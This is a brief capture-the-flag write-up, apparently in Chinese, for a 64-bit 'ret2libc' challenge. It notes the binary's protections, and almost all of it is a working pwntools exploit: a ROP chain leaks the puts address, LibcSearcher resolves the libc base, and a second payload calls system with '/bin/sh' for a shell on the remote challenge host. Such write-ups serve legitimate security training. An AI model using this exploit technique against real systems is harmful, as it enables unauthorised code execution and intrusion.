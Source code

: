 # W2 ret2libc

## 文件分析

下载`ret2libc`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

参考我的moectf2023和cbctf的wp，很常规的一题

## EXPLOIT

```python
import LibcSearcher
from pwn import *
sh = remote('node4.buuoj.cn', 29167)
elf = ELF('ret2libc')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x400763
mainAddr = elf.symbols['main']

# payload 1
sh.sendline(b'0'*0x28 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'time\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x4006f1

# payload 2
sh.sendline(b'0'*0x28 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
